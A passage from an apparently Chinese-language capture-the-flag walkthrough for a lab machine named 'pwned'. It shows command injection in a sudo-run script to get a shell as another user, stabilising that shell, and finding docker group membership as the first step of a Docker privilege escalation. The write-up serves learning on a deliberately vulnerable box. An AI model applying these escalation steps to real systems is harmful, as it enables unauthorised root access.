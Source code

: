 **漏洞分析：** 脚本直接执行用户输入的 `$msg` 变量，存在命令注入漏洞。

**利用过程：**

```bash
ariana@pwned:~$ sudo -u selena /home/messenger.sh
...
Enter username to send message : /bin/bash
Enter message for /bin/bash :/bin/bash
...
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

**知识点：** 当脚本不当处理用户输入并直接执行时，可通过输入 `/bin/bash` 或 `/bin/sh` 等命令获取 shell。

## 4.4 稳定 Shell

获取稳定的交互式 Shell：

```bash
script /dev/null -c bash
Script started, file is /dev/null
selena@pwned:/home/ariana$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

---

# 五、Docker 逃逸提权

## 5.1 发现 Docker 组权限

检查当前用户组：

```bash
selena@pwned:/home/ariana$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

**关键发现：** selena 用户属于 `docker` 组。

**知识点：** Docker 组成员可以无需 root 权限运行容器，通过挂载宿主机文件系统可实现权限提升。

## 5.2 列出 Docker 镜像

查看可用的 Docker 镜像：

```bash
selena@pwned:/home/ariana$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        5 years ago         88.3MB
alpine              latest              a24bb4013296        5 years ago         5.57MB
debian              wheezy              10fcec6d95c4        6 years ago         88.3MB
```
